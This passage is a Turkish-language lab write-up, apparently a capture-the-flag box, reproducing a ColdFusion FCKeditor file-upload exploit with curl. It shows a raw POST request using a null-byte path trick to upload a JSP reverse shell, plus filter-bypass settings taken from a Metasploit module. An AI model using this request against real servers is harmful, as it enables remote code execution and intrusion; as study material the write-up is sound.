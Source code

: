 Bu, **nispeten basit bir exploit**—yalnızca iki **HTTP isteği** gönderiyor.

İlk olarak, **FCKEDITOR_DIR**'e bir **POST isteği** yapıyor. Bu dizin, script'in önceki bölümünde **varsayılan olarak** `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm` olarak tanımlanmış.

Ardından, **payload'ı tetiklemek** için **/userfiles/file/** yoluna bir **GET isteği** gönderiyor.

#### Upload Reverse Shell

Bu exploit'i curl ile yeniden oluşturabilirim:

![Pasted image 20250209192803.png](/img/user/Pasted%20image%2020250209192803.png)

Bu işlem tamamlandığında, root'ta yeni bir klasör oluşur:

![Pasted image 20250209192818.png](/img/user/Pasted%20image%2020250209192818.png)

Ancak, **/userfiles/file/** içinde herhangi bir dosya yok. Muhtemelen bir **filter** tarafından engellendim.

![Pasted image 20250209193115.png](/img/user/Pasted%20image%2020250209193115.png)


Gönderdiğim **request** şu şekilde görünüyor:


```
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00 HTTP/1.1
Host: 10.10.10.11:8500
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 1700
Content-Type: multipart/form-data; boundary=------------------------2cf8346e8d23a757
Expect: 100-continue
Connection: close

--------------------------2cf8346e8d23a757
Content-Disposition: form-data; name="newfile"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
...[snip]...
```

Bu **upload** işlemini çalıştırmak için ayarlamam gereken iki şey var ve her ikisi de **MSF exploit'inde** tanımlı.

İlk olarak, **dosya adı** **.jsp** ile bitmemeli, çünkü bu filtreleniyor. **MSF script'i**, **.txt** uzantısını kullanıyor, bu yüzden **payload'ımın bir kopyasını** `shell.txt` olarak oluşturacağım.

Ayrıca, **MSF script'i**, dosyanın **Content-Type** değerini **application/x-java-archive** olarak ayarlıyor.
